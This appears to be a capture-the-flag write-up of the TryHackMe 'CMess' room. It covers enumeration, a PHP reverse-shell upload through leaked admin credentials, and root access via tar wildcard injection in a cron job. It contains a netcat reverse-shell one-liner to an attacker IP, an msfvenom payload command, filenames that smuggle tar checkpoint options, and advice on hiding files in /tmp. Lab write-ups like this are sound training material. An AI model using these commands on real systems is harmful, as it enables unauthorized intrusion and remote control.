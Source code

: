 # CMess

## Enumeration

to begin we are told to add the target IP to our host file 
command : ```nano /etc/hosts ```
``` <IP_address>    cmess.thm ```

now lets run an nmap scan to discover what services are running on our target.

command: ``` nmap -sC -sV -P0 <TARGET_IP> ```

![Alt text](cmess1.png)

with our scan complete we can see that we have two open ports and services runnning on our target system.

- port 22 ***(SSH)***
- port 80 ***(HTTP)***

we navigate to the webpage. 
![Alt text](cmess2.png)

so from our scan since we ran we can see  that it has enumerated a ***robots.txt*** file on the server with 3 dissallowed entries. but after navigating manually through each of them, they provide us with a 403 forbidden message.

![Alt text](cmess3.png)

so from this we can attempt to bruteforce for other hidden directories using Gobuster.

command: ``` gobuster dir  -u http://cmess.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt ```


![Alt text](cmess4.png)

from our directory brute force we just discovered two interesting directories ***login*** and ***admin***. now we navigate to it, but it seems that we require an email address and password to authenticate. 

using our hint, we can attempt performing a sub-domain enumeration using wfuzz 

command:  ``` wfuzz -c -f sub-fighter -w /root/subdomains.txt -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm" --hl 125 ```


![Alt text](cmess5.png)

so we wait for the enumeration to complete then we can seee that we have discovered a sub domain ***dev.cmess.thm***

command: ```grep 104 sub-fighter '''

![Alt text](cmess6.png)

now lets add that to our hosts file and navigate over to the site 

![Alt text](cmess7.png)

from the development log we can see login credentials we need to access the admin panel.

***email:*** ``` andre@cmess.thm ```
***password:*** ``` KPFTN_f2yxe% ```

now we Try to log in on cmess.thm/admin with these credentials

![Alt text](cmess8.png)

on the content tab -> File Manager we can see an upload functionality which we can try to exploit. Try to upload reverse shell because the website is running on an Apache server then PHP is very convenient for reverse shell.

![Alt text](cmess9.png)


so on Kali we can find some web shells under the following directory 

``` /usr/share/webshells/php/ ```
to get this to our current working directory we can utilize the ***cp*** command to copy the files.

![Alt text](cmess10.png)

command: ```cp /usr/share/webshells/php/php-reverse-shell.php <CURRENT_WORKING_DIRECTORY> ```

remember to change the ip variable value with your IP and set port number.

![Alt text](cmess11.png)

all uploads are stored in the assets folder. 

![Alt text](cmess12.png)

![Alt text](cmess13.png)

now to get a reverse connection once the script is executed we must setup a netcat listener on our attack machine to listen and catch the request

command: ```nc -lnvp 4444 ```

![Alt text](cmess14.png)

to execute the reverse shell script navigate to the following path 

```http://cmess.thm/assets/<filename>```


![Alt text](cmess15.png)

we have successfully gotten a shell as user ***www-data***. we need to get access escalate our privileges to the user andre so we can get the user flag.

now we can attemt to find a privilege escalation path using linpeas.sh

linpeas.sh is an automated tool for finding the vulnerability in the Linux systems.

to download linpeas unto our machine we can use the following command 

``` wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh ```

![Alt text](cmess16.png)

now we would need to transfer this file unto our target system by using a simple python server from our local machine.

to do this we simply run the following command in the directory we downloaded the and saved the linpeas files.

command: ``` python3 -m http.server <port_number>


![Alt text](cmess17.png)

Note: during a pentest it is important to note that file you transfer over to the target machine should always be stored in the ***/tmp*** folder to avoid the user finding them.


![Alt text](cmess19.png)

![Alt text](cmess18.png)

now we make the script executable and run it using the following command 

command: ```chmod +x linpeas.sh && ./linpeas.sh```


![Alt text](cmess20.png)

from linpeas enumeration we found a bak file which is a backup file. we also found a cron job which can possibly be explited to gain root access.



![Alt text](cmess21.png)

we can attempt to view the ***.password.bak*** 

command: ``` cat /opt/.password.bak```

![Alt text](cmess22.png)

It looks like the backup password of the andre but how we can use it? We know ssh is open on the 22 port try to sign in using this password.

command: ```ssh andre@cmess.thm ```

now we have successfully logged in as andre via the ssh credentials we found.

![Alt text](cmess23.png)

to get our ***user flag*** we can simply cat at the file

![Alt text](cmess24.png)

we finally got our first flag.

## Gaining Root Access

Now we can access the andre’s folder let’s see what the cron job does that we found using linpeas.

command: ```cat /etc/crontab ```


![Alt text](cmess25.png)

In this situation, a backup process occurs every 2 minutes, copying all files and folders from the /home/andre/backup directory to the /tmp directory in the form of andre_backup.tar.gz. It utilizes the tar command, and a noteworthy aspect is the use of the wildcard (*) character, signifying that anything within the /home/andre/backup directory is included in the backup. This particular functionality may pose a security risk, as it opens the possibility of exploiting the system.

to gain a root shell we can create a a payload using msfvenom

command: ``` msfvenom -p cmd/unix/reverse_netcat lhost=10.18.73.117 lport=4040 R ```

![Alt text](cmess26.png)

now we set up our listener 

command: ``` nc -lnvp <port> ```

lets now echo our payload in to “exploit.sh” and create the 2 directories needed for this exploit.

``` echo "mkfifo /tmp/txvij; nc 10.18.73.117 4040 0</tmp/txvij | /bin/sh >/tmp/txvij 2>&1; rm /tmp/txvij" > shell.sh ```

```echo "" > "--checkpoint-action=exec=sh shell.sh" && echo "" > --checkpoint=1 ```

![Alt text](cmess27.png)

Now we wait for the cron job to run and we should get tar interpret them commands and execute our shell.sh file.

and now we have our root shell and flag.

![Alt text](cmess28.png)




